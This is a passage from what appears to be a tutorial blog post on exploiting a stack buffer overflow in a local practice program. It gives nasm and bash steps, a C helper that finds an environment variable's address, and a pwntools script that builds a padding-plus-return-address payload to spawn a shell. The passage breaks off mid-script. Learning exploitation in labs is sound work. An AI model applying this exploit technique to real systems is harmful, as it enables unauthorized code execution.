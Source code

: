 {% highlight BASH %}

	nasm shellcode.s -o shellcode

{% endhighlight %}

You can then place your shellcode in an environment variable like so:

{% highlight BASH %}

	export SHELLCODE=$(cat shellcode)
	
{% endhighlight %}

But at this point, I decided to start building a script to do this automatically with Python. To find where an environment variable should be within our program, we can write another program utilizing the standard C library system call getenv(), and compile the program into a binary whose filename is off the same length (it to appears on the stack, higher than the variable we set).

{% highlight C%}
#include <stdio.h>
#include <stdlib.h>

int main(){
	printf("SHELLCODE = %p\n", getenv("SHELLCODE"));
}

{% endhighlight %}

With Python then, I placed the shellcode within the software environment, built the payload, and fed it into a newly launched vulnerable process to spawn my shell. I used the pwntools library to speed this up a fair bit, because on my system if I were to use Bash redirects it's difficult to remember how to pipe files and redirect the stdin back to my input before an end-of-file signal is sent (I'd pop my shell, but have no way to enjoy it). And so, my script follows as such:

{% highlight Python %}

from pwn import *

#place our shellcode into our environment
shellcode = file("shellcode").read()
print "Shellcode: " + shellcode

#place the gathered shellcode into our environment
os.environ['SHELLCODE'] = shellcode

#acquire the address of it from a similar stack
p = process("./env_show__me_") #name of equal length to our vulnerable program
print p.recvuntil("SHELLCODE = ")
shellcode_addr = int(p.recvline()[:-1], 16)
log.info( hex(shellcode_addr) )

#Begin to build our payload
f = file("payload", "w")

#Fill it with a bunch of junk
f.write("A"*40)

#get our address into our file in the little-endian format
s = p64(shellcode_addr + 15)

#writes out our payload to a file
f.write(s)
f.write(chr(0x10)) #fgets continues to read until it finds a newline
f.close() #Stay neat.

#Launch our vulnerable process
p = process("./overflow_vuln")

#reopen our payload file in read mode and gather it
payload = file("payload", "r").read()
log.info("Payload: " + payload)

#feed our payload into the program